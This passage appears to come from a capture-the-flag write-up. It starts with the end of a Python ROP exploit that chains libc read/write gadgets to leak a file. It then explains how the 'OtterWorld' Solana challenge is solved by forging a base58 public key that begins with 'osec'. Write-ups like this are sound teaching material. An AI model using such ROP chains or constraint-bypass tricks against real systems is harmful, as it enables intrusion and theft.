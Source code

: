 ```python
pay += p64(0x0061616161616161) * 13

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x3)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(0x404300)
pay += p64(libc_base+0x0000000000142c92) #pop_rdx
pay += p64(0x100)
pay += p64(libc_base+0x10dfc0) #read

pay += p64(0x00000000004013d3) #pop_rdi
pay += p64(0x1)
pay += p64(libc_base+0x000000000002601f) #pop_rsi
pay += p64(0x404300)
pay += p64(libc_base+0x0000000000142c92) #pop_rdx
pay += p64(0x100)
pay += p64(libc_base+0x10e060) #write

p.sendline(pay)

p.sendline(p64(0x0061616161616161))

p.interactive()
```

### OtterWorld:

The code for this challenge is fairly simple and straightforward. The only thing that stands out is the following constraints in `framework/chall/programs/chall/src/lib.rs`

```rust
#[account(
    constraint = password.key().as_ref()[..4] == b"osec"[..]
)]
pub password: AccountInfo<'info>,
```

To solve this challenge, we need to pass in a `password` that has a decoded public key with the first 4 bytes as "osec"

Solana public keys are base58 encoded, you can get an idea of what it looks like in the server log. To generate a public key which the first 4 bytes are "osec", we can take an existing key and convert it into decimal (since that is what rust eventually uses to compare)

![](https://imgur.com/CPNEyzZ.png)

We can then replace the first four numbers with `111 115 101 99` and encode the whole public key again back to its base58 format and get something like `8W4K4D8y1y7nXqNAYc3CtBMWj1dFDJRxrSbqffLTSg8u`. This will be the `password` we will pass to the server when we call the `get_flag` function.

exp:

`framework-solve/solve/programs/solve/src/lib.rs`:
